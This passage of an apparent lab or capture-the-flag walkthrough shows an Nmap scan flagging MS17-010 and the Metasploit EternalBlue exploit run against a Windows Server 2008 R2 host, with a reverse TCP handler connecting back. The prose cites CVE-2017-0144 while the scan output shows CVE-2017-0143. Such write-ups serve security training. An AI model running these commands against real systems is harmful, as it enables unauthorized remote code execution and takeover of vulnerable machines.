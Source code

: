 ```terminal
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

Nmap done: 1 IP address (1 host up) scanned in 2.52 seconds
```
The Nmap scan has revealed that the target system is vulnerable to `CVE-2017-0144`. This revelation serves as a pivotal moment as we move forward into the next stage of our mission: Exploitation.

## **Exploitation Time**: 
During this Exploitation phase, we'll harness the power of the detected vulnerability (CVE-2017-0144) to gain unauthorized access and control over the target system. Our first step in this journey is to employ the `searchsploit` tool to scour for any potential vulnerabilities, setting the stage for our exploration into system compromise.

```terminal
└─# searchsploit ms17-010
 Exploit Title 
 Microsoft Windows - SMB Remote Code Execution Scanner (MS17-010) 
 (Metasploit) 
    | windows/dos/41891.rb
```
Having identified a Metasploit module for this CVE, I'm ready to proceed by launching my msfconsole -q for the exploitation phase.

```terminal
┌──(kali㉿kali)-[~]
└─$ msfconsole -q   
msf6 > search eternalblue
0  exploit/windows/smb/ms17_010_eternalblue
```
The initial command i executed in Metasploit is the `search` command followed by the `eternalblue`, as you can see i found an ` exploit/windows/smb/ms17_010_eternalblue`,
```terminal
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts  10.150.X.X 
rhosts => 10.150.X.X
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhost tun0
lhost => 10.66.X.X
```
I've configured all the necessary settings for this exploit. The next step involves launching the command `exploit` or `run`.

```terminal
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit 

[*] Started reverse TCP handler on 10.66.X.X:4444 
[*] 10.150.X.X:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.150.X.X:445    - Host is likely VULNERABLE to MS17-010! - Windows Server 2008 R2 Enterprise 7601 Service Pack 1 x64 (64-bit)
[*] 10.150.X.X:445    - Scanned 1 of 1 hosts (100% complete)
[+] 10.150.X.X:445 - The target is vulnerable.
[*] 10.150.X.X:445 - Connecting to target for exploitation.
[+] 10.150.X.X:445 - Connection established for exploitation.
[+] 10.150.X.X:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.150.X.X:445 - CORE raw buffer dump (53 bytes)
[*] 10.150.X.X:445 - 0x00000000  57 69 6e 64 6f 77 73 20 53 65 72 76 65 72 20 32  Windows Server 2
```